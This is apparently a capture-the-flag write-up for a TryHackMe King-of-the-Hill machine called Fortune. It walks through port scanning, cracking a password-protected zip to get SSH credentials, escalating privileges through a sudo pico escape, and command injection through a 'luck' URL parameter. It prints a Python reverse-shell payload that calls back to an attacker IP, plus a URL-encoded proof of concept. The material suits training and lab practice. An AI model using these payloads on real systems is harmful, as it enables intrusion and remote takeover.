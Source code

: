 # Fortune.THM - Koth 

<---as KOTH is an intensive competition on flags and king declerations it is naturaly a good practice to scan a bunch of things at ones. some what of a fuzzing for entries... in real life this type of stratagy is very 'loud', so don't mimic anything from here this is not practical at all
--->
### enum
```bash
nmap fortune.thm -p- 
nmap fortune.thm -sV -sC 
nmap fortune.thm 
```
we got a lot of ports lets go for port 3333

### netcat
ill try to use netcat to see what's on the other side

nc fortune.thm 3333

I Got an encoded string... 
I pretty sure it's base64


```bash
nc fortune.thm 3333 | base64 -d
```

i get an output with a "magic byte" = PK
PK is the zip magic byte and every zip file is and shuld have PK at the start of the file.
In addition we can see a file name in the output called "creds.txt". this is defenetly a zip file...
lets save this output as a file

```bash
nc fortune.thm 3333 | base64 -d > test.zip
unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
```

looks like this file has a password, john is my man for the job!

### Meet my friend John.
creat the john file format with zip2john and then send it to john
```bash
zip2john test.zip > hash.txt
john hash.txt
unzip test.zip

unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
 extracting: creds.txt               
```

now that we have our password to the zip file we can unzip and see what contain the creds.txt file
```bash
cat creds.txt
```
we found a use named "fortuna" and his password "**********"

```bash
ssh fortuna@fortune.thm
password:
```

and we are in!
```bash
sudo -l
```
we can see that we are indeed in the sudoers file but we can only run pico as sudo
lets go to https://gtfobins.github.io/ to see what pico can do for us

so i got the shell type b 'exploit'

we run 
```bash
pico -s /bin/sh
```

we type in the text editor "/bin/sh"
and then we will ^T (CTRL + T) to execute out command

and it works just fine Although I think a stable shell can be helpful here and in KOTH in general look here to learn more "https://www.youtube.com/watch?v=f2aSXGbD0NE"


## method b if password has changed / we are no longer a sudo user

try to do somthing like

```bash
cd /home
while True; do bash ./lucky_shell
```

this binery is just an exploit on the system and we can run it until we get a root shell


If you are locked out from fortuna

### gobuster
```bash
gobuster dir -w ~/Desktop/wordlists/wordlistex2.txt -u http://fortune.thm
```
found _style and a message within saying something about the luck paramater... so i just gave it a luck paramater...

```html
fortune.thm/_style/?luck=ls
```
and sure enoght it works! well.. not on the first try
most of the time this will fail but in some cases the command will execute...
lets check if python is around

```html
fortune.thm/_style/?luck="python -c 'print(1)'"
```
and it is!

kali:
```bash
nc -nlvp 1234
```

payload:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MYIP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

poc:
```html
http://fortune.thm/_styles/?luck=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22MYIP%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

we got a shell!
and the rest is the same.
